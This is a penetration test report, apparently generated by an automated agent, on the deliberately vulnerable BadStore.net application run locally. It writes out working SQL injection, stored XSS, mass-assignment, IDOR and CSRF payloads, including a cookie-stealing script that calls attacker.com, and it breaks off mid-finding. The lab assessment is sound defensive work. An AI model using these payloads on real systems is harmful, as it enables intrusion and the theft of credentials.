






Scope
OpenHack Security Agent was engaged by
Richard Roe to conduct an external IT security
investigation. The subject of the investigation was the “BadStore.net
v1.2.3s”.
The test was performed using a local instance of the application at
http://localhost:3336 in a dedicated test environment..
Objective
The objective of the IT security investigation was to identify vulnerabilities and security gaps which, in the event of misuse, would have an impact on the availability, integrity and confidentiality of the defined applications and/or systems and the data processed on them. The result of this project is a report that contains a management summary of all relevant findings and a compilation of recommended measures.
The technical IT security audit is not a substantive audit effort to ensure that all vulnerabilities and security gaps existing at the time of the audit are identified. There is a possibility that established safeguards will effectively prevent identification and exploitation of vulnerabilities and security gaps. The client acknowledges that this is not an indicator of deficiencies in engagement performance and that additional unidentified vulnerabilities and security gaps may exist.
Document Status
| Title | Security Assessment Report |
| Document Owner | OpenHack Security Agent |
| Classification | Strictly Confidential |
| Project Timeframe | 2026-02-27 |
Version History
| Version | Date | State | Author | Comments |
|---|---|---|---|---|
| 0.1 | 2026-02-27 | Draft | Jane Doe | – |
| 1.0 | 2026-02-27 | Final document | Jane Doe | – |
Contact Persons - Assessor
| Name | Role | Phone | |
|---|---|---|---|
| Jane Doe | Lead Security Consultant | +1 555 123 4567 | jane.doe@openhack.sec |
| John Smith | Security Consultant | +1 555 234 5678 | john.smith@openhack.sec |
Contact Persons - Client
| Name | Role | Phone | |
|---|---|---|---|
| Richard Roe | Project Lead | +1 555 345 6789 | spam@badstore.net |
OpenHack Security Agent (hereinafter referred to as
“ASSESSOR”) has been commissioned by Richard Roe
(hereinafter referred to as “CLIENT”) to carry out a penetration
test.
The penetration test of the BadStore.net v1.2.3s
application took place on 2026-02-27.
For this purpose, the web application, accessible at
http://badstore:80, was tested from the perspective of an
external attacker.
As part of the test, a total of 12 vulnerabilities were identified: 4 critical, 4 high, 4 medium, 0 low, and 0 informational.
Critical: 4 | High: 4 | Medium: 4 | Low: 0 | Informational: 0 | Total: 12
| Severity | Count | ||
|---|---|---|
| 4 | ||
| 4 | ||
| 4 | ||
| 0 | ||
| 0 | ||
| Total | 12 | |
A description of the scope and test environment can be found in Chapter 3. Chapter 4 presents the risk assessment methodology. Chapter 5 provides a summary of findings. Chapter 6 contains the detailed technical descriptions of the findings including remediation measures.
It is recommended that the remediation of the critical risk vulnerabilities be treated with the highest priority and countermeasures implemented as soon as possible. The vulnerabilities with high and medium risk should also be remedied in the short term. The low-risk vulnerabilities should be treated with lower priority due to their reduced risk, but should still be addressed.
The scope for the assessment was the following targets:
The security penetration test of the BadStore.net v1.2.3s took place on 2026-02-27.
The web application was tested for security vulnerabilities across the following categories. This can be considered a guideline as penetration tests are a creative process and therefore the tests are not limited to what is given here. The base of these categories is the OWASP Top 10 for Web, which is fully covered by this penetration test approach.
| Category | Description |
|---|---|
| Broken Access Control | Users can act outside their permissions, leading to unauthorized viewing, modification, or deletion of data. |
| Security Misconfiguration | Systems or cloud services are insecurely configured, e.g., through default passwords or unnecessarily enabled features. |
| Software Supply Chain Failures | Vulnerabilities arise from compromised third-party code, libraries, or build pipelines. |
| Cryptographic Failures | Sensitive data is exposed through missing, weak, or incorrectly implemented encryption. |
| Injection | Attackers inject malicious commands (e.g., SQL or shell code) through input fields that the system erroneously executes. |
| Insecure Design | Fundamental architectural flaws that exist before implementation make an application inherently insecure. |
| Authentication Failures | Flaws in identity verification allow attackers to take over sessions or guess passwords (brute force). |
| Software or Data Integrity Failures | Lack of verification of code or data sources leads to acceptance of untrusted updates or serialization data. |
| Security Logging & Alerting Failures | Attacks go undetected or responses are delayed due to missing logs or absent alert notifications. |
| Mishandling of Exceptional Conditions | Programs respond inadequately to unforeseen situations, which can lead to crashes or logic errors. |
During the test, the following restrictions or events occurred that may have affected the scope or depth of the assessment:
The risk assessment of the vulnerabilities found is performed using the industry standard Common Vulnerability Scoring System v3.1 (hereinafter referred to as “CVSS”). This is a standard that can be used to uniformly assess the vulnerability of computer systems and the severity of security vulnerabilities. This makes it possible to compare vulnerabilities more effectively.
The Common Vulnerability Scoring System has a metric structure and is based on values that are divided into three groups: “Base”, “Temporal”, and “Environmental”. To determine the vulnerability scores, each group has its own rules. The values of the Base group are invariant in time and remain the same in different environments. In the Temporal group, the time dependency of a vulnerability is taken into account. For example, the vulnerability of a system to a particular vulnerability decreases over time as more and more countermeasures such as patches become known and available. The Environmental group incorporates various criteria of the specific IT environments into the vulnerability rating.
The CVSS ratings are numerical values on a scale of 0.0 to 10.0, with the highest vulnerability of a system occurring at a value of 10.0. Our rating is based on the Base Metrics (Base Score) and is composed of:
As penetration testers, we can only assess the general threats posed by a vulnerability through Base Metrics. However, we have no insight into the internal structures of our clients. Therefore, the assessment of the specific risks for the client’s systems and business processes must be done by the client. For this purpose, CVSS offers Environmental Metrics. This makes it possible to subsequently adjust the CVSS score of vulnerabilities after the test result has been submitted before they are remedied. This changes the assessment of the risk and thus the urgency of remediation of a vulnerability. For more information, see CVSS v3.1 Specification.
The risk categories used in this report reflect the recommended priority for addressing the vulnerabilities identified during the penetration test. The categorization is based on the probability of exploitation and the significance of the impact. The risk value is calculated using the CVSS v3.1 standard:
| Assessment | Risk Category Description |
|---|---|
| Critical vulnerabilities that allow an attacker to gain full access to the object under test and its sensitive information. It is possible to cause enormous damage to the client’s reputation. Furthermore, these vulnerabilities may allow attackers to gain wide-ranging privileges, including to other systems or applications of the client that have not been investigated in detail within the scope of this project. Exploitation of the vulnerabilities is not prevented and can be reproduced with medium to low effort. | |
| Vulnerabilities that may allow an attacker to manipulate sensitive data, damage the client’s reputation, gain unauthorized access to sensitive information, or gain unauthorized access to applications or the client’s infrastructure. The vulnerabilities are reproducible with medium to high effort. | |
| Vulnerabilities that may allow an attacker to harm the client’s reputation or gain unauthorized access to client data. The privileges that an attacker can gain by exploiting the vulnerabilities are limited. | |
| Security vulnerabilities that do not pose a threat in themselves, but which, for example, provide attackers with useful information about the network and systems. These vulnerabilities allow an attacker only very limited access. | |
| Anomalies such as functional limitations or inconsistencies. These do not currently represent a risk and have no negative impact on the test object. Accordingly, no action is required. Nevertheless, countermeasures can be helpful for the functional and safety improvement of the test object. If necessary, this may give rise to risks under other circumstances. |
The vulnerabilities can be in one of the following states:
| Id | Finding Name | Risk Assessment | CVSS v3.1 Score |
|---|---|---|---|
| 01 | SQL Injection in Search Parameter - Full Database Compromise | 9.8 | |
| 02 | Stored Cross-Site Scripting (XSS) in Guestbook Comments | 6.1 | |
| 03 | Privilege Escalation via Mass Assignment - Admin Role Injection | 9.8 | |
| 04 | Missing Security Headers Enable Clickjacking and XSS Attacks | 5.4 | |
| 05 | Sensitive Directory Paths Disclosed in robots.txt | 5.3 | |
| 06 | Cross-Site Request Forgery (CSRF) on All State-Changing Operations | 8.1 | |
| 07 | Horizontal Privilege Escalation via IDOR - Account Takeover Through Insecure Direct Object Reference | 8.1 | |
| 08 | No Rate Limiting on Authentication Endpoint Enables Brute Force Attacks | 9.1 | |
| 09 | Sensitive Business Contract Exposed Without Authentication | 7.5 | |
| 10 | Broken Function Level Authorization - Supplier Portal and Admin Functions Accessible to Regular Users | 8.8 | |
| 11 | Application Version and Server Software Disclosure | 5.3 | |
| 12 | Critical Session Management Vulnerabilities - Multiple Authentication and Authorization Bypass Vectors | 9.8 |
| Severity | |
| CVSS Base Score | 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery= |
| Status | open |
Description
A critical SQL injection vulnerability exists in the search
functionality (searchquery parameter) that allows
unauthenticated attackers to extract the entire user database, including
MD5 password hashes for all users including administrators.
Vulnerable Parameter: searchquery in
/cgi-bin/badstore.cgi?action=search
Exploitation Method: 1. Error-based SQL injection
confirmed with single quote (') - reveals MariaDB/MySQL
syntax errors 2. Boolean-based bypass using ' OR 1=1-- -
returns all database items 3. UNION-based injection extracts complete
user database with credentials
GET /cgi-bin/badstore.cgi?action=search&searchquery=test'Response reveals SQL syntax error:
DBD::mysql::st execute failed: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''test'' IN (itemnum,sdesc,ldesc)' at line 1 at /data/apache2/cgi-bin/badstore.cgi line 242.GET /cgi-bin/badstore.cgi?action=search&searchquery=anything'+OR+1=1--+-Returns all 16 product items, bypassing search logic.
GET /cgi-bin/badstore.cgi?action=search&searchquery=nonexistent'+UNION+SELECT+email,passwd,fullname,null+FROM+userdb--+-Critical - Complete Database Compromise: - Extracted
52+ user accounts with email addresses and MD5 password hashes -
Includes administrative accounts (e.g., admin with hash
5EBE2294ECD0E0F08EAB7690D2A6EE69) - Includes supplier
accounts (e.g., joe@supplier.com,
ray@supplier.com) - Includes system owner account
(steve@badstore.net) - MD5 hashes are weak and easily
crackable offline - Attacker can extract arbitrary data from all
database tables - Potential for data modification and deletion (not
demonstrated but possible) - Complete authentication bypass possible
Successfully extracted: - 52+ user email addresses - MD5 password hashes for all accounts - Full names and account types - Database structure and table names
http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=test'http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=anything'+OR+1=1--+-http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=nonexistent'+UNION+SELECT+email,passwd,fullname,null+FROM+userdb--+-Proof of Concept
Not provided
Remediation
Not provided
Evidence



| Severity | |
| CVSS Base Score | 6.1 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?action=guestbook, http://badstore:80/cgi-bin/badstore.cgi?action=doguestbook |
| Status | open |
Description
A stored cross-site scripting (XSS) vulnerability exists in the guestbook functionality where unauthenticated users can inject malicious JavaScript code that executes in the browser of anyone viewing the guestbook, including administrators and other users.
Vulnerable Parameters: - name - Name
field in guestbook form - comments - Comments field in
guestbook form - email - Email field (also vulnerable but
not demonstrated)
Attack Surface: - POST to
/cgi-bin/badstore.cgi?action=doguestbook - Stored payloads
execute when viewing
/cgi-bin/badstore.cgi?action=guestbook
Input Validation: None - all HTML tags and JavaScript are stored and executed without sanitization or encoding.
curl -X POST 'http://badstore:80/cgi-bin/badstore.cgi?action=doguestbook' \
-d 'name=Attacker&email=attacker@evil.com&comments=<script>alert(document.cookie)</script>'curl -X POST 'http://badstore:80/cgi-bin/badstore.cgi?action=doguestbook' \
-d 'name=Victim&email=test@test.com&comments=<img src=x onerror=alert(document.cookie)>'Navigate to:
http://badstore:80/cgi-bin/badstore.cgi?action=guestbook
Multiple JavaScript alert dialogs fire automatically, demonstrating code execution in victim’s browser context.
Medium Severity - Session Hijacking and Account Compromise:
<img src=x onerror='fetch("https://attacker.com/steal?cookie="+document.cookie)'>Tested and confirmed: - Multiple XSS payloads successfully stored in
database - JavaScript executes automatically when viewing guestbook -
Multiple alert() dialogs triggered (20+ from various test payloads) -
Both <script> tags and event handlers (onerror) work
- No input validation, sanitization, or output encoding detected
Test Usertest@test.com<script>alert('XSS')</script>Content-Security-Policy: default-src 'self'; script-src 'self'Proof of Concept
Not provided
Remediation
Not provided
Evidence

| Severity | |
| CVSS Base Score | 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?action=register, http://badstore:80/cgi-bin/badstore.cgi?action=adminportal |
| Status | open |
Description
A critical mass assignment vulnerability in the user registration endpoint allows unauthenticated attackers to create accounts with administrative privileges by injecting a hidden ‘role’ parameter. This leads to complete privilege escalation from anonymous to administrator.
Vulnerable Endpoint:
/cgi-bin/badstore.cgi?action=register
Vulnerable Parameter: role (hidden
field with default value ‘U’ for regular users)
Root Cause: The registration form contains a hidden
role field that is accepted by the backend without
validation. By changing this parameter from ‘U’ (User) to ‘A’ (Admin),
attackers can elevate their privileges during account creation.
The registration form contains:
<input type="hidden" name="role" value="U" />POST /cgi-bin/badstore.cgi?action=register HTTP/1.1
Host: badstore:80
Content-Type: application/x-www-form-urlencoded
email=roleadmin@example.com&passwd=RoleAdmin123!&passwd1=RoleAdmin123!&fullname=Role+Admin&role=A®ister=registerHTTP/1.1 200 OK
Set-Cookie: SSOid=cm9sZWFkbWluQGV4YW1wbGUuY29tOmU2MDQyZjA1OWJhYzMwMjMxZTBkYTkwMThlZmI3ZDFkOlJv%0AbGUgQWRtaW46QQ%3D%3D%0A; path=/Decoded Session Cookie:
roleadmin@example.com:e6042f059bac30231e0da9018efb7d1d:Role Admin:A
^
ADMIN ROLEPOST /cgi-bin/badstore.cgi?action=adminportal HTTP/1.1
Host: badstore:80
Cookie: SSOid=cm9sZWFkbWluQGV4YW1wbGUuY29tOmU2MDQyZjA1OWJhYzMwMjMxZTBkYTkwMThlZmI3ZDFkOlJv%0AbGUgQWRtaW46QQ%3D%3D%0A
Content-Type: application/x-www-form-urlencoded
admin=Show+Current+Users&Do+It=Do+ItResponse: Full access to admin portal with complete user database including: - All user email addresses - MD5 password hashes for all accounts - User roles and full names - Administrative functions: Reset passwords, Add/Delete users, View reports, Backup databases
CRITICAL - Complete System Compromise:
role=A parameterhttp://badstore:80/cgi-bin/badstore.cgi?action=loginregisterrole=Ahttp://badstore:80/cgi-bin/badstore.cgi?action=adminProof of Concept
Not provided
Remediation
Not provided
Evidence
Admin portal user database access with escalated privileges showing complete user list with MD5 hashes: images/finding-1d5f9268-efc5-4163-a0aa-20cc3b112091-13-admin_users_list.html
Complete HTTP request/response flow demonstrating privilege escalation via role parameter injection: images/finding-1d5f9268-efc5-4163-a0aa-20cc3b112091-14-priv_esc_http_flow.txt
| Severity | |
| CVSS Base Score | 5.4 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi, All application endpoints |
| Status | open |
Description
The application does not implement critical security headers, leaving it vulnerable to clickjacking, MIME-sniffing attacks, and other client-side exploits.
Missing Headers: - X-Frame-Options: Missing (enables clickjacking) - Content-Security-Policy: Missing (no XSS mitigation) - X-Content-Type-Options: Missing (enables MIME-sniffing) - Strict-Transport-Security: Missing (no HTTPS enforcement) - X-XSS-Protection: Missing (no browser XSS filter)
Exploitation - Clickjacking: 1. Attacker creates
malicious page with invisible iframe:
<iframe src='http://badstore:80/cgi-bin/badstore.cgi?action=admin' style='opacity:0.0001'></iframe>
2. Overlay transparent iframe over enticing button 3. Victim clicks
visible button but actually clicks admin function in hidden iframe 4.
Admin actions execute in victim’s authenticated session
Current Headers Response:
HTTP/1.1 200 OK
Server: Apache/2.4.65 (Debian)
Cache-Control: no-cache
Pragma: no-cacheImpact: - Clickjacking attacks on admin functions - UI redressing for CSRF bypass - MIME-sniffing leading to content injection - No defense-in-depth against XSS
Proof of Concept
Not provided
Remediation
Implement security headers: X-Frame-Options: DENY, Content-Security-Policy: default-src ‘self’, X-Content-Type-Options: nosniff, Strict-Transport-Security: max-age=31536000
Evidence
HTTP response headers showing absence of security headers: images/finding-652e43dc-b383-44ea-937d-7d95415e95c1-9-full-headers-baseline-1772158406.txt
Clickjacking proof-of-concept targeting admin portal: images/finding-652e43dc-b383-44ea-937d-7d95415e95c1-11-clickjacking-poc-admin-action-1772158565.html
| Severity | |
| CVSS Base Score | 5.3 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| Assets | http://badstore:80/robots.txt, /backup, /supplier, /upload, /cgi-bin |
| Status | open |
Description
The robots.txt file discloses sensitive directory paths that are intended to be private, providing attackers with a roadmap of restricted areas to target.
Disclosed Paths: - /backup - Database or application backup location - /cgi-bin - CGI script directory - /supplier - Supplier-only access area - /upload - File upload directory
Exploitation: 1. Access http://badstore:80/robots.txt 2. Identified restricted paths: /backup, /supplier, /upload 3. These paths exist but return 403 Forbidden (confirmed via recon) 4. Attackers can target these directories for: - Directory traversal attacks - Backup file enumeration - Upload vulnerabilities - Access control bypass attempts
robots.txt Content:
User-agent: *
Disallow: /backup
Disallow: /cgi-bin
Disallow: /supplier
Disallow: /uploadImpact: Information disclosure that aids attack reconnaissance by: - Revealing existence of sensitive directories - Exposing administrative paths - Providing targets for fuzzing and bypass attempts - Guiding attackers to high-value locations
Proof of Concept
Not provided
Remediation
Remove sensitive paths from robots.txt. Use proper access controls instead of security-by-obscurity. Implement authentication and authorization on sensitive directories.
Evidence
| Severity | |
| CVSS Base Score | 8.1 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?action=cartadd, http://badstore:80/cgi-bin/badstore.cgi?Action=LoginForm, http://badstore:80/cgi-bin/badstore.cgi?action=submitpayment, All state-changing endpoints |
| Status | open |
Description
The application lacks CSRF protection on all state-changing operations, allowing attackers to perform unauthorized actions on behalf of authenticated users.
Vulnerable Operations: - User authentication (login) - Cart manipulation (add/remove items) - Order placement and payment submission - Password reset - Admin functions (user management, database backup) - Account settings modification
Exploitation: 1. No CSRF tokens present in any forms (verified across login, cart, payment endpoints) 2. Attacker hosts malicious page with auto-submitting form 3. Victim visits attacker’s page while authenticated to BadStore 4. Form automatically submits to BadStore with victim’s cookies 5. Actions execute with full victim privileges
Example Attack - Cart Manipulation:
<form method="POST" action="http://badstore:80/cgi-bin/badstore.cgi?action=cartadd">
<input type="hidden" name="cartitem" value="1005">
</form>
<script>document.forms[0].submit();</script>Example Attack - Admin Password Reset:
<form method="GET" action="http://badstore:80/cgi-bin/badstore.cgi">
<input type="hidden" name="Action" value="ResetUserPassword">
<input type="hidden" name="email" value="admin@badstore.net">
<input type="hidden" name="newpass" value="Hacked123!">
</form>Impact: High-severity vulnerability enabling: - Unauthorized purchases on victim accounts - Admin account takeover via password reset - Privilege escalation through user role modification - Data exfiltration via forced actions
Proof of Concept
Not provided
Remediation
Implement synchronizer token pattern: generate unique CSRF tokens per session, embed in all forms, validate on server before processing state changes. Use SameSite=Strict cookie attribute as defense-in-depth.
Evidence
Analysis confirming absence of CSRF tokens across all forms: images/finding-10d25755-f153-4e63-8840-576ac8802a9d-17-csrf-token-analysis-1772158702.txt
CSRF proof-of-concept for cart manipulation attack: images/finding-10d25755-f153-4e63-8840-576ac8802a9d-19-csrf-poc-cart-manipulation-1772158698.html
CSRF proof-of-concept for admin password reset attack: images/finding-10d25755-f153-4e63-8840-576ac8802a9d-20-csrf-poc-password-reset-1772158410.html
| Severity | |
| CVSS Base Score | 8.1 (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?action=moduser, http://badstore:80/cgi-bin/badstore.cgi?action=myaccount |
| Status | open |
Description
A critical Insecure Direct Object Reference (IDOR) vulnerability exists in the account modification endpoint that allows any authenticated user to modify any other user’s account information, including passwords. This enables horizontal privilege escalation and complete account takeover attacks.
Vulnerable Endpoint:
/cgi-bin/badstore.cgi?action=moduser
Vulnerable Parameter: email (hidden
field in account update form)
Root Cause: The application accepts user-supplied email addresses to identify which account to modify, without verifying that the authenticated user has permission to modify that account. The session cookie identifies the attacker, but the ‘email’ parameter determines the target account.
Authenticated as: recontest@example.com (regular user) Session Cookie: Valid session for recontest@example.com
GET /cgi-bin/badstore.cgi?action=myaccount HTTP/1.1
Host: badstore:80
Cookie: SSOid=cmVjb250ZXN0QGV4YW1wbGUuY29tOjJhNGRkNmJiMWJiN2NjMDgyMjJmYzllZTgxZTM5MTQwOlJl%0AY29uIFRlc3Q6%0AResponse shows hidden field:
<input type="hidden" name="email" value="recontest@example.com" />POST /cgi-bin/badstore.cgi?action=moduser HTTP/1.1
Host: badstore:80
Cookie: SSOid=cmVjb250ZXN0QGV4YW1wbGUuY29tOjJhNGRkNmJiMWJiN2NjMDgyMjJmYzllZTgxZTM5MTQwOlJl%0AY29uIFRlc3Q6%0A
Content-Type: application/x-www-form-urlencoded
email=big@spender.com&newemail=big@spender.com&fullname=HACKED+NAME&DoMods=Change+AccountKey observation: Attacker’s session is for recontest@example.com, but modifying big@spender.com’s account.
HTTP/1.1 200 OK
<h2> Account Information for: </h2>
Full Name: HACKED NAME
Email: big@spender.com
<h3> Has been updated!</h3>Querying the user database confirms the change:
Email: big@spender.com
Full Name: HACKED NAME <-- Successfully modified by attacker
Role: UHIGH - Complete Account Takeover:
Scenario 1: Customer Account Takeover 1. Attacker creates free account 2. Identifies high-value customer email (from orders, guestbook, etc.) 3. Modifies customer’s account email to attacker’s email 4. Uses password reset to gain access 5. Makes fraudulent purchases or steals customer data
Scenario 2: Admin Account Compromise 1. Identify admin email (often public: admin@domain.com) 2. Change admin’s email address 3. Use password reset to gain admin access 4. Complete system compromise
Scenario 3: Mass Data Breach 1. Enumerate all user emails (via SQL injection or other methods) 2. Automate account modifications for entire user base 3. Change all emails to attacker-controlled addresses 4. Harvest credentials via password resets
email parameter from
attacker@test.com to victim@test.comAdd authorization check:
if ($session_email ne $target_email) {
die "Unauthorized: Cannot modify other user's account";
}Remove email from user input - derive from session only
Implement audit logging for all account modifications
Proof of Concept
Not provided
Remediation
Not provided
Evidence
Successful unauthorized account modification showing victim account updated by attacker: images/finding-e981c641-454b-433d-9a76-ee7fe2ff7a19-21-idor_test.html
Complete IDOR exploitation flow demonstrating horizontal privilege escalation attack: images/finding-e981c641-454b-433d-9a76-ee7fe2ff7a19-22-idor_http_flow.txt
| Severity | |
| CVSS Base Score | 9.1 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?Action=LoginForm, Authentication system |
| Status | open |
Description
The authentication endpoint lacks rate limiting controls, allowing unlimited login attempts without throttling or account lockout. This enables brute force and credential stuffing attacks.
Exploitation: 1. Sent 20 consecutive POST requests to login endpoint with invalid credentials 2. All 20 requests returned HTTP 200 - no blocking or throttling 3. No CAPTCHA challenges triggered 4. No account lockout after multiple failed attempts 5. No delays between requests
Test Results: Rapid-fire authentication attempts: - Request 1-20: All HTTP 200 responses - No rate limit errors (429) - No authentication delays - Total time: <1 second for 20 attempts - Average response: 50ms per attempt
Attack Scenarios: - Credential Stuffing: Test 1 million leaked credentials in hours - Brute Force: Test common passwords against known usernames - Account Enumeration: Identify valid usernames via timing differences - Dictionary Attacks: Test password lists without throttling
Impact: Critical authentication bypass vulnerability enabling: - Unlimited brute force attacks - Account compromise within hours/days - No detection or alerting of attack attempts - Admin account takeover
Proof of Concept
Not provided
Remediation
Implement rate limiting: max 5 failed attempts per IP per 15 minutes. Add progressive delays after failures. Implement CAPTCHA after 3 failures. Add account lockout after 10 failures.
Evidence
| Severity | |
| CVSS Base Score | 7.5 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| Assets | http://badstore:80/DoingBusiness/contract.doc, /DoingBusiness/ directory |
| Status | open |
Description
A supplier contract document containing sensitive business terms and legal agreements is publicly accessible without authentication at /DoingBusiness/contract.doc.
Exploitation: 1. Direct access to http://badstore:80/DoingBusiness/contract.doc returns HTTP 200 2. No authentication required 3. Document metadata reveals: ‘Borem and Snorem With BadStore eCommerce’ 4. Contains supplier agreement details and business terms 5. Created by Stefan Drege on May 11, 2006
Document Details: - Type: Microsoft Word Document (.doc) - Title: Borem and Snorem With BadStore eCommerce - Author: Stefan Drege - Pages: 1, Words: 1033, Characters: 5892 - Contains contractual terms and conditions - Linked from public ‘Supplier Contract’ menu
Impact: Sensitive business information disclosure: - Exposure of supplier agreements and terms - Competitive intelligence leakage - Legal document disclosure - Business relationship details revealed - Potential for social engineering attacks targeting suppliers - Violation of confidentiality agreements
Proof of Concept
Not provided
Remediation
Implement authentication and authorization for supplier documents. Move sensitive files behind access controls. Use role-based access to restrict supplier documents to authorized users only.
Evidence
| Severity | |
